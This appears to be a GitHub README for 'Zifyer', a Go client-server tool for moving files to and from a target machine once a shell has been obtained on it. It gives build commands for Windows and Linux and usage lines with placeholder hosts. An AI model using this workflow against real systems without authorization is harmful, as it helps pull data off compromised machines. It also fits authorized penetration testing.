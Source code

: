 <h1>Zifyer Client-Server</h1>
This is a small tool to upload/download files from a machine while connected with a shell to it
<p>Steps:</p>
<p>1. Get a shell to the target</p>
<p>2. Run the server on your machine.</p>
<p>3. Drop the Zifyer binary to target machine.</p>
<p>4. Upload/Download files between the shells.</p>

<p>For those who are knew to this:</p>
<p>apt-get install golang</p>

<h3>Compile for windows x86/x64:</h3>
<p>GOOS=windows GOARCH=amd64 go build -o Zifyer.exe Client.go</p>
<p>GOOS=windows GOARCH=386 go build -o Zifyer.exe Client.go</p>

<h3>Compile for linux </h3>

go build Client.go


<h3>Zifyer.exe Usage:</h3>
<p>-h for help</p>
<p>-d download mode</p>
<p>-u upload mode </p>
<p>-H IP </p>
<p>-p Port </p>
<p>-f File </p>

<h4>Download to machine mode: </h4>
<p>Zifyer.exe -d -H "Remote I.P/DOMAIN" -p "Port" -f "file location example: /home/test.txt"</p>

<h4>Upload to machine mode:</h4>
<p>Zifyer.exe -u -H "I.P/DOMAIN to get file from" -p "Port" -f "file location example: /home/test.txt"</p>
<p></p>
<p></p>
<h3>Zifyer_Server Usage:</h3>
<p>-h for help</p>
<p>-H IP to host server </p>
<p>-p Port </p>
<p>dir Directory to store uploads</p>

<p>./Zifyer_Server -H "I.p to host the server" -p "Port" dir "Directory to upload the files to" 
<p>1. compile -> go build Final_Server.go</p>
<p>2. run -> ./Zifyer -H "Your I.P" -p 9000 dir uploads </p>
<p> File upload can also be made via Web, just go to your server's url and upload manually :) </p>

